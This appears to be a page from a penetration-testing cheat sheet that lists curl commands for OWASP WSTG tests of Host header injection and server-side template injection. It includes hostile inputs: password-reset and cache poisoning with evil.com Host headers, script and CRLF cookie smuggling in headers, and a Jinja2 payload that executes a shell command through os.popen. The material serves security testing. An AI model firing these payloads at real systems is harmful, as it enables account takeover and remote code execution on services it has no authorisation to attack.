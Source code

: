 ## WSTG-INPV-17: Testing for Host Header Injection

**Objective**: Assess if the Host header is being parsed dynamically in the application and bypass security controls that rely on the header.

### Commands

```bash
# Test for basic Host header injection
curl -s -H "Host: evil.com" https://example.com/

# Test for password reset poisoning
curl -s -X POST -H "Host: attacker.com" https://example.com/reset_password -d "email=victim@example.com"

# Test for web cache poisoning via Host header
curl -s -H "Host: evil.com" -H "X-Forwarded-Host: evil.com" https://example.com/

# Test for Host header injection in different contexts
curl -s -H "Host: evil.com<script>alert(1)</script>" https://example.com/
curl -s -H "Host: evil.com%0d%0aSet-Cookie: malicious=1" https://example.com/

# Test for Host header bypass using X-Forwarded-Host
curl -s -H "X-Forwarded-Host: evil.com" https://example.com/

# Test for Host header bypass using other headers
for header in "X-Forwarded-Host" "X-Host" "X-Forwarded-Server" "X-HTTP-Host-Override" "Forwarded"; do
  curl -s -H "$header: evil.com" https://example.com/
done

# Test for Host header injection in virtual host routing
curl -s -H "Host: internal-system.local" https://example.com/
```

## WSTG-INPV-18: Testing for Server-side Template Injection

**Objective**: Detect template injection vulnerability points, identify the templating engine, and build the exploit.

### Commands

```bash
# Test for basic template injection
curl -s "https://example.com/page?param={{7*7}}"
curl -s "https://example.com/page?param=${7*7}"
curl -s "https://example.com/page?param=<%= 7*7 %>"

# Test for template injection with different payloads
for payload in "{{7*7}}" "${7*7}" "<%= 7*7 %>" "#{7*7}" "{7*7}" "${{7*7}}" "{{config}}"; do
  curl -s "https://example.com/page?param=$payload"
done

# Test for template injection in different parameters
for param in "name" "id" "template" "page" "view" "theme"; do
  curl -s "https://example.com/page?$param={{7*7}}"
done

# Test for server-side template injection in POST data
curl -s -X POST "https://example.com/page" -d "param={{7*7}}"

# Test for template injection with command execution (Jinja2)
curl -s "https://example.com/page?param={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"
```